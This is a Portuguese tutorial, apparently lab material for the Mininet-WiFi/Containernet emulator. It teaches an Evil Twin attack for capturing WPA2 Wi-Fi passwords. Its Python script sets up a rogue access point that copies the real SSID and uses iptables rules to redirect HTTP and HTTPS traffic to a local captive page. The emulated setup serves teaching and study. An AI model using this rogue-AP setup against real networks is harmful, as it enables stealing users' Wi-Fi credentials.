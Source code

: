 ************
Hackeando a senha de Wi-Fi WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
************


.. Note::
  **Neste documento você irá compreender como:**   
  
  - Acontece o ataque denominado de  Evil Twin Attack
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi possui todos os recursos necessários para reproduzir este documento.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

```python=
#!/usr/bin/python

'''@author: Ramon Fontes
   @email: ramon.fontes@imd.ufrn.br'''

from containernet.net import Containernet
from containernet.node import DockerSta
from mininet.log import setLogLevel, info
from containernet.cli import CLI
from containernet.term import makeTerm


def topology():
    "Create a network."
    net = Containernet()

    info("*** Creating nodes\n")
    sta1 = net.addStation('sta1', ip='0/0')
    sta2 = net.addStation('sta2')
    ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                             failMode="standalone", datapath='user')
    ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

    info("*** Configuring wifi nodes\n")
    net.configureWifiNodes()

    info("*** Associating Stations\n")
    net.addLink(sta2, ap1)

    info("*** Starting network\n")
    net.build()
    ap1.start([])

    ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
    #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
    ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

    #ap2.cmd('iptables --flush')
    ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
    ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
    ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
    ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
    ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
    ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

    sta1.cmd('ifconfig sta1-wlan0 192.168.190.2/24')
    sta1.cmd('route add default gw 192.168.190.1')

    info("*** Running CLI\n")
    CLI(net)

    info("*** Stopping network\n")
    net.stop()


if __name__ == '__main__':
    setLogLevel('debug')
    topology()
```

